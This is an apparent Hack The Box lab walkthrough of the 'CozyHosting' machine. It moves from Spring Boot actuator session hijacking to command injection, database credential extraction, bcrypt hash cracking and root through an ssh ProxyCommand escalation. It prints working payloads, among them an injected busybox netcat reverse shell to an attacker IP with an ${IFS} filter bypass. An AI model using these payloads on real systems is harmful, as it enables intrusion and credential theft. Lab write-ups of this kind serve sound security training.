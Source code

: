 HTB – CozyHosting Machine (Hard) – Spring Boot ➜ Actuator ➜ SSH Injection ➜ DB Dump ➜ Hash Cracking ➜ Root via GTFOBins
🔍 Initial Recon

Started enumeration by scanning the target machine:

rustscan -a 10.10.11.230

Ports Discovered:

    22/tcp – SSH

    80/tcp – HTTP

    8000/tcp – HTTP-Alt (suspected, not used initially)

🌐 Web Enumeration (Port 80)

Identified the site as a hosting platform. Added hostname to system:

echo '10.10.11.230 cozyhosting.htb' | sudo tee -a /etc/hosts

Directory brute-forcing:

feroxbuster -u http://cozyhosting.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,py,txt,bak

Interesting Routes:

    /login

    /admin

    /logout

    /error – ⚠️ Uncommon & suspicious

⚙️ Tech Stack Fingerprinting

Visiting /error gave a Whitelabel Error Page:

There was an unexpected error (type=None, status=999)

Googling this revealed the site uses the Spring Boot framework:
🔗 https://springhow.com/this-application-has-no-explicit-mapping-for-error/
🚨 Spring Boot Actuator Misconfiguration

Checked for default actuator endpoints:

/actuator/env
/actuator/health
/actuator/sessions

/actuator/sessions revealed active session tokens:

{
  "6F02...95C": "kanderson",
  "7D94...75F": "UNAUTHORIZED",
  ...
}

➡️ Session Hijack Attempt: Used one of kanderson's session tokens to access /admin.

✅ Success: Landed in an admin panel.
📟 SSH Injection → Remote Code Execution

Admin dashboard contained an SSH form to "add hosts".

Tested injection via:

hostname=localhost&username=$(busybox nc 10.10.14.133 5555 -e /bin/bash)

Received error:

Username can't contain whitespaces!

Bypassed whitespace filter using ${IFS}:

hostname=localhost&username=$(busybox${IFS}nc${IFS}10.10.14.120${IFS}4444${IFS}-e${IFS}/bin/bash)

Setup listener:

python3 -m pwncat -lp 4444

💥 Got initial shell as app.
🔍 Local Enumeration

Found running web application:

/app/cloudhosting-0.0.1.jar

Downloaded it via pwncat:

download cloudhosting-0.0.1.jar ./app.jar

Extracted its contents:

jar xvf app.jar

Found DB credentials inside:

./BOOT-INF/classes/application.properties

spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=V[REDACTED]R

🛢️ PostgreSQL Enumeration

Connected to DB locally:

psql -h localhost -U postgres

Switched to correct DB:

\c cozyhosting

Dumped tables:

SELECT table_name FROM information_schema.tables;

Queried users table:

SELECT * FROM users;

Found:

name     | password (bcrypt)                       | role
-------------------------------------------------------------
kanderson | $2a$10$E/...eH58zim                    | User
admin     | $2a$10$Sp...VO8dm                      | Admin

🔓 Cracking Admin Hash

Saved hash and cracked using Hashcat:

echo '$2a$10$Sp...VO8dm' > admin_hash.txt
hashcat -m 3200 -a 0 admin_hash.txt /usr/share/wordlists/rockyou.txt

✅ Recovered password: m[REDACTED]d
👤 Local User Access

Tried cracked password with user josh:

su josh

✅ Success. User flag retrieved.

Checked sudo permissions:

sudo -l

Output:

(root) /usr/bin/ssh *

⚔️ Privilege Escalation via GTFOBins

Found privilege escalation path on GTFOBins:
🔗 https://gtfobins.github.io/gtfobins/ssh/

Used the following to escalate:

sudo /usr/bin/ssh -o ProxyCommand='; /bin/bash 0<&2 1>&2' x

💥 Root shell obtained:

root@cozyhosting:/home/josh#

🏁 Summary

    🔎 Spring Boot detection via error leak

    🔐 Session hijack → Admin access

    ⚠️ SSH form vulnerable to command injection

    📦 .JAR contained DB creds → DB dump → bcrypt hash extraction

    💣 Local privilege escalation via ssh GTFOBin

